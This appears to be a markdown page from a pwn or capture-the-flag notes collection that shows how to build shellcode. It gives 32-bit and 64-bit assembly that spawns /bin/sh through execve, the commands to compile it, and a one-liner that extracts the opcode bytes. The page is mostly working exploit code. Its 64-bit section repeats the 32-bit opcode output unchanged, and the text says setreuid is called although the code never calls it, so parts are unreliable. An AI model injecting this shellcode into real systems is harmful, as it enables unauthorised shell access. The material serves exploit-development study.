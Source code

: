 # Construct your own ShellCode

A shellcode is a small piece of code written in low-level programming languages, typically assembly language, that is designed to be injected into a system to perform specific actions.

Exploit: [Shell code injection](/pwn/shell-code-injection.md)

### Table of Content

- [32 bit](#32-bit)
- [64 bit](#64-bit)

## 32 bit

### asm

To write your own shell code, you need to know how code in assembly. 

[Asm Cheat Sheet](https://github.com/Gottiee/asm)

Example of shell code calling setreuid and execve(/bin/bash)

```asm
global _start

_start:

    xor eax, eax
    push eax
    push 0x68732f2f ; //sh
    push 0x6e69622f ; /bin
    mov ebx, esp
    push eax
    push ebx
    mov ecx, esp
    mov al, 0xb
    int 0x80
```

Compile it:

```bash
$> nasm -f elf32 main.asm -o asm.o
$> ld -m elf_i386 asm.o -o asm
```

Generat opcode:

```bash
$> for i in $(objdump -D asm |grep "^ " |cut -f2); do echo -n '\\x'$i; done;echo
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

## 64 bit

```asm
global _start
   
_start:
	mov rcx, 0x68732f6e69622f   ; /bin/sh
	push rcx                    ; push the immediate value stored in rcx onto the stack
	xor rdx, rdx
	lea rdi, [rsp]              ; load the address of the string that is on the stack into rdi
	mov al, 0x3b
	syscall                     ; make the syscall
```

Compile it:

```bash
nasm -f elf64 main.asm -o asm.o
ld asm.o -o asm
```

Generat opcode:

```bash
$> for i in $(objdump -D asm |grep "^ " |cut -f2); do echo -n '\\x'$i; done;echo
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

### Anti dump + Obfuscation

- [docu](https://pentester.blog/?cat=2)

---

[**:arrow_right_hook: Back Pwn**](/pwn/pwn.md)